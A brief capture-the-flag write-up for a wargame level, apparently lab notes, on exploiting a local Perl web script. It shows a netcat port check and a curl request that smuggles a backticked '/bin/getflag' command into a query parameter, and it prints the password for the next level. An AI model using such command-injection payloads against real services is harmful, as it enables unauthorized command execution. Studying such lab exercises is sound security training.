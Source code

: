# 04 - Todo: perl script problem
- understand the `.pl`
- know `2>&1`
```b
> nc -vz localhost 4747
  👆 v: verbose - z: scan if a port is open
Connection to localhost 4747 port [tcp/*] succeeded!

> curl localhost:4747/?x="\`/bin/getflag\`"
```

# 04 - token

```b
su level05
> Password: ne2searoevaevoem4ov4ar8ap
```
